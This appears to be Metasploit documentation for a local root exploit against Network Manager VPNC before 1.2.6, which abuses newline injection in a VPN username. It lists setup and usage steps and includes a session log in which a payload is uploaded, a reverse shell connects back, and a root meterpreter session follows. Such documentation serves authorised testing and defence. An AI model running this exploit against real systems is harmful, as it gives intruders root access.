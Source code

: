 ## Vulnerable Application

### Description

  This module exploits an injection vulnerability in the Network Manager
  VPNC plugin to gain *root* privileges.

  This module uses a new line injection vulnerability in the configured
  username for a VPN network connection to inject a `Password helper`
  configuration directive into the connection configuration.

  The specified helper is executed by Network Manager as root when the
  connection is started.

  Network Manager VPNC versions prior to 1.2.6 are vulnerable.

  This module has been tested successfully with VPNC versions:

  * 1.2.4-4 on Debian 9.0.0 (x64); and
  * 1.1.93-1 on Ubuntu Linux 16.04.4 (x64).

### Installation

  The following installation instructions are for Ubuntu 16.04.04.

  ```sh
  # List available network-manager-vpnc packages
  apt-cache showpkg network-manager-vpnc

  # Install a vulnerable package
  apt-get install network-manager-vpnc=1.1.93-1
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/network_manager_vpnc_username_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/network_manager_vpnc_username_priv_esc 
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > set lhost 172.16.191.188 
  lhost => 172.16.191.188
  msf exploit(linux/local/network_manager_vpnc_username_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] nmcli utility is installed
  [*] Adding VPN connection...
  [*] Uploading payload...
  [*] Writing '/tmp/.4FCA0Pp4tw' (237 bytes) ...
  [*] Starting VPN connection...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 172.16.191.201
  [+] Deleted /tmp/.4FCA0Pp4tw
  [*] Removing VPN connection...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.201
  OS           : Ubuntu 16.04 (Linux 4.13.0-41-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

